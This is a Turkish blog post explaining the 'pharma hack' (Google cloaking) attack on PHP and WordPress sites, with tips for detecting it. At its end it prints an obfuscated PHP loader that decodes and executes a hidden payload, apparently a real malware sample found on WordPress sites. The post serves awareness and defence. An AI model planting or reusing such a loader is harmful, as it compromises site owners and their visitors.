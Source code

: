 ```yaml
---
title: "Pharma hack (Google Cloaking Hack) nedir?"
slug: pharma-hack-google-cloaking-hack-nedir
date: 2012-01-02
description: "Pharma Hack (Google Cloaking) nedir, siteleri nasıl etkiler ve nasıl tespit edilir? SEO odaklı bu saldırının WordPress gibi sistemlerdeki tehlikeleri ve korunma yolları."
url: http://mfyz.com/tr/pharma-hack-google-cloaking-hack-nedir/
tags: ["pharma hack", "google cloaking", "seo saldırısı", "site güvenliği", "wordpress", "php", "hack"]
category: Sunucu Programlama
migration: {"wpId":159,"wpPostDate":"2012-01-02T03:09:02.000Z"}
lang: tr
---
```


#### Pharma hack nedir?

Pharma hack bır çeşit SEO saldırısıdır. Asıl adı Google Cloaking Hack'dır. Sitenizi html çıktısını kullanıcıya göre manipüle etmek üzerine kuruludur. Pharma hack adını genellikle internette cinsel sağlık ürünleri veya besin takviyesi satan şirketlerin bu hack ile trafik kazanmaya çalışmasından almıştır. Yani bu hack sadece sitenizin arama motoru trafiğini kesmez. Tabi siz analitics yazılımlarda bir trafik kaybı görmezsiniz. Sadece bounce rate'iniz her gün yükselir ve dış trafiğiniz artar. Bu da pagerank'ınızı kaybetmeninizi sağlayabilir.

Büyük tehlike ise sitenizin sansürlenmesi. Türkiye'de son dönemde birçok sitenin/blogun sansürlerden dolayı engellendiğini görüyorsunuz. Bu filtreler genelde halka açık ortamlar, eğitim kurumları gibi alanlarda çok daha etkin. Yani zararsız bir siteye sahip olsanız bile bu hack ile MEB ve BTK'nın google indeksleri ile edindiği site bilgisi genelde cinsel sağlık ürünleri olacağı için muhtemelen siz o içeriğe sahip olmasanız bile okullar, internet cafe'ler gibi yerlerden otomatik olarak filtrelenmiş olacaksınız.

#### Nasıl oluyor?

Pharma hack sitenize doğrudan ziyaretle anlayamayacağınız bir saldırıdır. Siteniz doğrudan gelen ziyaretçilere normal çıktısını verir ve tarayıcıda doğrudan sitenize giren insanlar sitenizi görmeye devam ederler, böylece siz de anlamazsınız pharma hack altında olduğunuzu.

Ama arama motoru botları sitenizi taramaya çalıştığı zaman sitenizin hack kodu sitenizin sayfa başlığı, anahtar kelimeleri gibi meta etiketlerini değiştirip sayfa içeriğinde istedikleri anahtar kelimeleri de ekleyerek sitenizin çıktısını manipule eder. Böylece pagerank'ınızı kullanarak arama motorlarından gelen trafiğinizi çalarlar. Böylece sitenize ait tüm google indeksleri bir sonraki güncellemede o anahtar kelimeleri alır. Eğer siteniz yüksek page rankına sahipse o anahtar kelimelerde üst sıralarda çıkar ve kullanıcı linke tıkladıgı zaman sayfanızdaki ufak bir javascript kodu kullanıcıyı başka bir sunucuya yönlendirir. Arama motoru trafiğiniz yanlış içerikle sunulur ve kısaca arama motoru trafiğiniz başka bir siteye yönlendirilir.

#### Sitenizde pharma hack var mı?

Sitenizi sayfaları kontrol ederek pharma hack olup olmadığını anlayamazsınız. Birkaç yolu var;

1) Tarayıcınızın User Agent'ını GoogleBot olarak değiştirip sitenize girebilir, sayfalarınız öyle kontrol edebilirsiniz.

2) Google Webmaster Tools'a kayıt olup sitenizi ekleyip google botun sitenizi nasıl taradığını görebilirsiniz. Googlebot site sitenizin verdiği HTML çıktısını gösterecektir. Meta etiketlerinizi ve sayfa içeriğinizi kontrol edip fakrlı olup olmadığını görebilirsiniz.

#### Ne tür uygulamalarda yapıyorlar?

Benim gördüğüm örnekleri popüler php hostinglerde ya sunucu kontrolünü ele geçirdikten sonra tüm hesaplara ya da sadece sizin hesabınızı ele geçirdilerse sizin hesabınızda yapılan birkaç ufak php numarasıyla sayfalarınızı arama motoru botlarında farklı render etme üzerine kuruludur. Eğer bir wordpress bloguna veya joomla, drupal gibi bir CMS kullanıyorsanız muhtemel olarak tehlike altındasınız demektir çünkü ele geçirilmesi, gizlenmesi en kolay ve hackerların hedef kitlesidir.

Örnek bir pharma hack kodu göstermem gerekirse:
```php
$check_tmg_password_reset_key = 'QN9Mrh7F=4?C!N^NP.NJ16YH6K66G=+BOeHeQ7D?A!"
CMD$JT,UTP@#3kSZ=j8;>?=B5$(v+}k~)tKkwz6puT|_P{-[11):V;Hblc<eyfau+Z4r29[dID2ThIY.E^A|AHcN@E-
woZPd'^'48X!Z(P<TZY/@:;f6G"/nQ<<i(YX3XE6<MjJ9X)ZnLD:7kE.9E;z=&ZIE05PEHZ
PZQmyMJY{5;*h8d;?*b19{,7 Tl/EC@X#O-M<+l18*N[X,Z]FT+K96]$E+8] 
q##t{R\`0+JUFsy_';
$make_ao_site_theme_from_oldschool = '"\`E\`\`e_Fe$"dai.'|'Are!t!Y tncT)oF';

$wp_rzc_newPage = $make_ao_site_theme_from_oldschool('',$check_tmg_password_reset_key);
$wp_rzc_newPage();

```
Bu kod wordpress bloglar için özellikle yazılmış bir pharma hack kodu. Genelde sitenizde her sayfada çalıştırılan bir dosyada yer alırlar. (bootstrap.php, common.php, db.php vs...)